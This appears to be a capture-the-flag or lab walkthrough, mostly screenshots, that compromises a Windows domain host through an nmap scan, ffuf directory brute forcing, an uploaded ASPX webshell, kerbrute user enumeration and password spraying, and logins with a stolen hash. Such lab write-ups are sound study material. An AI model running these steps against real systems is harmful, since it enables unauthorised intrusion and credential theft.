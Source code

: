 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5a1e9008-596b-411b-a72c-c78ff662881e)
```
 nmap -p- 192.168.2.7 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1090fd32-6904-40c3-ba28-e7d27ce5c1da)

```
 ftp 192.168.2.7
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bc1c825-1fc4-4d95-9a09-fe388d53957a)

https://infinitelogins.com/2020/01/20/hack-the-box-write-up-devel-without-metasploit/

```
ffuf -u http://192.168.2.7/FUZZ -w /home/kali/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-medium.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/96189e50-7fbe-424f-a226-54b0ae4e900c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a9e919aa-648a-4707-a4be-611d6dd10edb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8cc07b6b-174b-4655-8f82-eceebbfd4045)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9d652f58-07c9-4bfc-9d38-0239ad8c0993)
```
cp /usr/share/webshells/aspx/cmdasp.aspx ~/CodeBy/AD/Bunker
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/883a0640-90f6-4ee3-8793-26b4ba0404a1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ea7c9cc-dc4f-49d2-a5bb-936057587b02)

https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e203fc9d-91e8-4ecf-aa6c-31ecf0542711)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1819789f-6478-49dd-813c-8872a73e1adf)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2841c526-af31-451e-b87e-7537340f1c5e)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.7 user.txt  
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/85ec86f3-29ce-4038-9789-c50a835dea9a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/894b6ab0-ba5c-4bdf-a5ce-28d1355d7f25)
```
./kerbrute_linux_amd64 passwordspray -d codeby.cdb --dc 192.168.2.7 user.txt PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ef6abbee-9f62-443c-be53-d41e2b778b05)
```
enum4linux-ng 192.168.2.7 -u 'kristina.levashova' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bcc55e3-d1eb-456b-9ae4-eaac391d0aa5)
```
ssh kristina.levashova@192.168.2.7
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dd5a088e-71bc-4ecd-ae1d-6d6257410552)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bf9cc53b-d5d2-4551-a10b-abf002edcab2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1ede9498-869b-4c2f-83e9-1e819820a425)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dda620ec-762f-4172-9cfa-ea09d172d39e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/34993991-da6a-4f2e-b113-8e79cb500c11)

https://gist.github.com/tijldeneut/69717c56de3e16e97516a1964fa49bfd
```
python3 win.py --host=127.0.0.1 --user=ivan.prokhorov --pass=A35C785C352_HASH_D082E292F28033233036C326F78E0196D69D3214CE261FE
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c158d661-03eb-424e-bc85-294283a63e0e)

```
ssh ivan.prokhorov@192.168.2.7
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6b506f3d-720a-4d4c-be3f-f816ae2e2f41)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d20edb66-a3e6-4725-8b05-8e69d47c86c0)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8c9f2dd8-cde5-4f8d-b1d4-f177abdc463b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/114165b8-a96f-4929-8f26-24dd5baff23e)

